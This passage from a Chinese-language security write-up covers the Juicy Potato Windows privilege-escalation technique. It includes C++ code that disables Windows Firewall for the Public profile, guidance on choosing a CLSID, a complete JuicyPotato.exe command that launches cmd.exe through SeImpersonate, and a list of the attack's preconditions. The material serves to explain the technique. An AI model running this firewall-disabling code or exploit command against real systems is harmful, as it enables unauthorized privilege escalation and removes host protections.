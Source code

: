 ```cpp
		{
			CoUninitialize();
		}
		return 0;
	}

	// Disable Windows Firewall for the Public profile
	hr = pNetFwPolicy2->put_FirewallEnabled(NET_FW_PROFILE2_PUBLIC, FALSE);
	if (FAILED(hr))
	{
		printf("put_FirewallEnabled failed for Public: 0x%08lx\n", hr);
		// Release INetFwPolicy2
		if (pNetFwPolicy2 != NULL)
		{
			pNetFwPolicy2->Release();
		}

		// Uninitialize COM.
		if (SUCCEEDED(hrComInit))
		{
			CoUninitialize();
		}
	}
	return 0;
}
```
### 3、根据操作系统选择可用的CLSID

参考列表

https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

例如测试系统Win7，选择CLSID为`{4991d34b-80a1-4291-83b6-3328366b9097}`
### 4、选择一个系统未占用的端口作为监听端口
例如，最终参数如下：

```
JuicyPotato.exe -t t -p c:\windows\system32\cmd.exe -l 1111 -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

表示开启SeImpersonate权限创建进程，监听端口1111，使用的CLSID为`{4991d34b-80a1-4291-83b6-3328366b9097}`
## 0x05 限制条件
---

经过以上的分析，Juicy Potato的限制条件如下：

- 需要支持SeImpersonate或者SeAssignPrimaryToken权限
- 开启DCOM
- 本地支持RPC或者远程服务器支持PRC并能成功登录
- 能够找到可用的COM对象
